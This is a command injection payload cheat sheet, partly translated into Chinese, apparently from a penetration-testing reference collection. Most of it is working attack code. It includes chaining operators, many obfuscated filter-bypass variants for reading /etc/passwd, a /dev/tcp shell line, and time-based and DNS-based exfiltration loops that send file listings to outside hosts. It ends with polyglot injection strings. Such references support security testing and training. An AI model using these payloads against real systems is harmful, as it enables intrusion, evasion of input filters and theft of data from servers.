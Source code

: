 # 命令注入

> 命令注入是安全漏洞中的一种，它使攻击者可以在有漏洞的应用程序中执行任意命令。

## Summary

* [工具](#工具)
* [漏洞利用](#漏洞利用)
  * [基本命令](#基本命令)
  * [命令串联](#命令串联)
  * [插入命令](#插入命令)
* [过滤绕过](#过滤绕过)
  * [不带空格](不带空格)
  * [使用换行符](#使用换行符)
  * [Bypass blacklisted words](#bypass-blacklisted-words)
   * [使用单引号](#使用单引号)
   * [使用双引号](#使用双引号)
   * [使用斜杠和反斜杠](#使用斜杠和反斜杠)
   * [使用 $@](#使用 $@)
   * [使用变量表达式](#使用变量表达式)
   * [使用通配符](#使用通配符)
* [Challenge](#challenge)
* [基于时间的数据渗透](#基于时间的数据渗透)
* [基于DNS的数据渗透](#基于DNS的数据渗透)
* [Polyglot command injection](#polyglot-command-injection)
* [References](#references)
    

## 工具

* [commix - Automated All-in-One OS command injection and exploitation tool](https://github.com/commixproject/commix)

## 漏洞利用

### 基本命令

Execute the command and voila :p

```powershell
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
```

### 命令串联

```powershell
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls    Only if the first cmd fail
```

### 插入命令

```bash
original_cmd_by_server `cat /etc/passwd`
original_cmd_by_server $(cat /etc/passwd)
```

## 过滤绕过

### 不带空格

Works on Linux only.

```powershell
swissky@crashlab:~/Www$ cat</etc/passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab▸ ~ ▸ $ {cat,/etc/passwd}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ cat$IFS/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd
RCE
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ X=$'uname\x20-a'&&$X
Linux crashlab 4.4.X-XX-generic #72-Ubuntu

swissky@crashlab▸ ~ ▸ $ sh</dev/tcp/127.0.0.1/4242
```

不带空格，$或{}的命令执行-Linux（仅限Bash）

```powershell
IFS=,;`cat<<<uname,-a`
```

Works on Windows only.

```powershell
ping%CommonProgramFiles:~10,-18%IP
ping%PROGRAMFILES:~10,-5%IP
```

### 使用换行符

```powershell
something%0Acat%20/etc/passwd
```

### Bypass Blacklisted words

#### 使用单引号

```powershell
w'h'o'am'i
```

#### 使用单引号

```powershell
w"h"o"am"i
```

#### 使用斜杠和反斜杠

```powershell
w\ho\am\i
/\b\i\n/////s\h
```

#### 使用 $@

```powershell
who$@ami

echo $0
-> /usr/bin/zsh
echo whoami|$0
```

#### 使用比变量表达式

```powershell
/???/??t /???/p??s??

test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```

#### 使用通配符

```powershell
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```

## Challenge

Challenge based on the previous tricks, what does the following command do:

```powershell
g="/e"\h"hh"/hm"t"c/\i"sh"hh/hmsu\e;tac$@<${g//hh??hm/}
```

## 基于时间的数据渗透

Extracting data : char by char

```powershell
swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real    0m5.007s
user    0m0.000s
sys 0m0.000s

swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real    0m0.002s
user    0m0.000s
sys 0m0.000s
```

## 基于DNS的数据渗透

Based on the tool from `https://github.com/HoLyVieR/dnsbin` also hosted at dnsbin.zhack.ca

```powershell
1. Go to http://dnsbin.zhack.ca/
2. Execute a simple 'ls'
for i in $(ls /) ; do host "$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
```

```powershell
$(host $(wget -h|head -n1|sed 's/[ ,]/-/g'|tr -d '.').sudo.co.il)
```

Online tools to check for DNS based data exfiltration:

- dnsbin.zhack.ca
- pingb.in

## Polyglot command injection

```bash
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}

e.g:
echo 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo '1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo "1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
```

```bash
/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/

e.g:
echo 1/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
echo "YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/"
echo 'YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/'
```

## References

* [SECURITY CAFÉ - Exploiting Timed Based RCE](https://securitycafe.ro/2017/02/28/time-based-data-exfiltration/)
* [Bug Bounty Survey - Windows RCE spaceless](https://twitter.com/bugbsurveys/status/860102244171227136)
* [No PHP, no spaces, no $, no { }, bash only - @asdizzle](https://twitter.com/asdizzle_/status/895244943526170628)
* [#bash #obfuscation by string manipulation - Malwrologist, @DissectMalware](https://twitter.com/DissectMalware/status/1025604382644232192)
